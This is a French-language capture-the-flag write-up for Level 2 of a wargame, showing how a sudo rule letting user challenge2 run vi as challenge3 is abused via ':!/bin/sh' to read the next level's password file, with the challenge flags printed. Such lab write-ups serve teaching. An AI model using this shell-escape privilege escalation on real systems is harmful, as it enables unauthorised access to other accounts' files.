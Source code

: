 # Write up : Wargames

### Level 2


Consigne :

```
Consignes lvl2 :<br>
Le but de ce challenge est de devenir l'utilisateur challenge3 en utilisant la  commande disponible via 'sudo -l'.<br>

Se connecter à l'adresse suivante : <br />
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<FONT COLOR="#ff0000">ssh -p 6666 challenge2@game1.marshack.fr</FONT> <br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;password : [flag obtenu dans l'épreuve précédente]
```

Connexion 

```bash
ssh -p 6666 challenge2@game1.marshack.fr
password: MARS{hloiO6JJKCRcDPL8YHsBkENGxxRtESQ3}
```

Contrôle de l'uid

```
challenge2@b36757fe226e:~$ id

uid=1001(challenge2) gid=1001(challenge2) groups=1001(challenge2)
```

Visualisation des privilèges : sudo -l

```
challenge2@b36757fe226e:~$ sudo -l

  User challenge2 may run the following commands on e63bbe56ea83:
  (challenge3) NOPASSWD: /usr/bin/vi
```

C'est une élévation de privilèges basique via le binaire vi.

```
sudo -u challenge3 /usr/bin/vi
```

Ouverture d'un shell dans vi.

```
:!/bin/sh
```

Exécuter ensuite les commandes permettant : 

- la vérification de l'id
- l'affichage du password

```
$ id
uid=1002(challenge3) gid=1002(challenge3) groups=1002(challenge3)

$ cat /etc/wargames_pass/level3/level3_password

    MARS{Z0jU71sabjJ9DHzLEVV3nLoVibLS1wC9}
```

Contenu du répertoire /etc/wargames_pass

```bash
drwxr-x--- 1 root root       4096 oct.  28 13:25 level10
drwxr-x--- 1 root root       4096 oct.  28 13:25 level11
drwxr-x--- 1 root root       4096 oct.  28 13:25 level2
drwxr-x--- 1 root challenge3 4096 oct.  28 13:25 level3     <== challenge3 a accès au contenu
drwxr-x--- 1 root root       4096 oct.  28 13:25 level4
drwxr-x--- 1 root root       4096 oct.  28 13:25 level5
drwxr-x--- 1 root challenge6 4096 oct.  28 13:25 level6     <== challenge6 a accès au contenu
drwxr-x--- 1 root root       4096 oct.  28 13:25 level7
drwxr-x--- 1 root root       4096 oct.  28 13:25 level8
drwxr-x--- 1 root challenge9 4096 oct.  28 13:25 level9     <== challenge9 a accès au contenu
```



Résultat : MARS{Z0jU71sabjJ9DHzLEVV3nLoVibLS1wC9}